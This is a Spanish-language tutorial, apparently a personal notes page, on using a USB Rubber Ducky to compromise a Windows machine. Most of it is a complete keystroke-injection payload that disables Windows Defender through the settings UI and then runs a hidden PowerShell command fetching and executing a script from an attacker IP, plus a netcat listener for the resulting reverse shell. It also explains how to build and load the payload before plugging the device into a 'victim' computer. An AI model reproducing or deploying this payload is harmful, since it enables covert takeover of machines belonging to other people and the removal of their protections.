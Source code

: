 # USB Rubber Ducky (Hack5) Función

Es un USB aparentemente normal, pero en su interior tiene un hardware que simula ser un teclado, por lo que cuando se conecta a un dispositivo, este lo reconoce como un teclado y permite ejecutar scripts escribiendolo todo de forma automatica como un teclado programable a tu manera.

## Explicación practica

Podremos programar el USB con su propio lenguaje de script que esta establecido en la siguiente pagina:

URL = [Pagina Script Rubber Ducky](https://payloadstudio.com/community/)

Por ejemplo cuando queramos ejecutar un script en algun equipo como por ejemplo en windows, podremos programar al USB para que cuando se inserte de forma automatica haga una serie de opciones las cuales hayamos programado, por ejemplo si queremos que desactive el firewall de windows y se ejecute un script que creara una `Reverse Shell`, podremos utilizar el siguiente script:

```txt
REM Turn off Windows Defender
REM
DELAY 1000
CTRL ESC
DELAY 400
STRING pr
ENTER
DELAY 1000
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
ENTER
DELAY 1000
SPACE
DELAY 400
LEFT
DELAY 400
ENTER
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
TAB
DELAY 400
TAB
DELAY 400
SPACE
DELAY 400
ALT F4
DELAY 1000
GUI r
DELAY 400
STRING powershell -w hidden "IEX(New-Object Net.WebClient).downloadString('http://<IP>/PS.ps1')"
ENTER
```

Ahora solo tendremos que darle a la opcion `Default US`, darle a `Lenguage: us.json` y establecerlo como `es.json` para tener el teclado en español y que los caracteres especiales no fallen, echo esto bajaremos abajo del todo y le daremos a la opcion `Generate Payload`, lo que nos generara un archivo llamado `inject.bin` el cual sera el que tendremos que pegar en el interior del pendrive.

Para hacer esto, tendremos que abrir el pendrive la carcasa y extraer la `micro SD` que lleva conectada, mediante un USB adaptador de `micro SD` lo conectaremos al equipo para pegar en el interior de la carpeta `SD` el archivo `.bin`

Echo esto anterior desconectaremos la `SD` y la volveremos a coenctar al USB `Rubber Ducky`

Antes de conectar el USB al equipo Victima, tendremos que tener en nuestro equipo Atacante un servidor abierto para que se descargue nuestro archivo malicioso llamado `PS.ps1` de powershell que hayamos programado para objetener una `Reverse Shell`.

```shell
rlwrap nc -nvlp <PORT>
```

Con esto estaremos a la escucha junto con cualquier direccion IP establecida como `0.0.0.0`

Por lo que cuando conectemos el USB al equipo Victima, se desactivara el `Windows Defender` y se ejecutara el script para obtener acceso a la maquina Victima.

Con esto se puede hacer muchas mas cosas que una `Reverse Shell`, pero tiene sus limitaciones igualmente.
